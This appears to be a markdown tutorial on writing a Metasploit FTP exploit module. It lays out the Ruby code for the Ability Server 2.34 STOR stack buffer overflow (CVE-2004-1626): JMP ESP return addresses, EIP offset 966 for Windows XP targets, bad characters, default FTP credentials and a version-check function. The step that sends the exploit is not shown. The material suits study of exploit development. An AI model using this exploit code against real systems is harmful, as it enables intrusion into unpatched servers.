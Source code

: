 # Exploit module

## Remote Exploit 

### FTP exploit 

#### What we want? 
- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Set the bad characters
- Take the EIP Offset of each target 
- Check if the remote host hast has the vulnerable version 
- Send the exploit



- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Set the bad characters

```ruby

include Msf::Exploit::Remote::Ftp


def initialize(info = {})
super(update_info(info,
  'Name'           => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
  'Description'    => %q{
    This module exploits a stack-based buffer overflow in Ability Server 2.34.
    Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
    which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

    The vulnerability has been confirmed on version 2.34 and has also been reported
    in version 2.25 and 2.32. Other versions may also be affected.
  },
  'Author'         =>
    [
      'muts',           #Initial discovery
      'Dark Eagle',     #same as muts
      'Peter Osterberg' #Metasploit
    ],
  'License'        => MSF_LICENSE,
  'References'     =>
    [
      [ 'CVE', '2004-1626' ],
      [ 'OSVDB', '11030'],
      [ 'EDB', '588'],
    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process'
    },
  'Privileged'     => false,
  'Payload'        =>
    {
      'Space'    => 1000,
      'BadChars' => "\x00\xff"
    },
  'Platform'       => 'win',
  'Targets'        =>
    [
      [
        'Windows XP SP2 ENG',
        {
          #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
          'Ret' => 0x73E32ECF,
          'Offset' => 966
        }
      ],
      [
        'Windows XP SP3 ENG',
        {
          #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully pathced)
          'Ret' => 0x7E429353,
          'Offset' => 966
        }
      ],
    ],
  'DisclosureDate' => 'Oct 22 2004'
  ))

register_options(
  [
    Opt::RPORT(21),
    OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
    OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
  ], self.class)
end
```


- Check if the remote host hast has the vulnerable version 

```ruby
  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end
```

- 




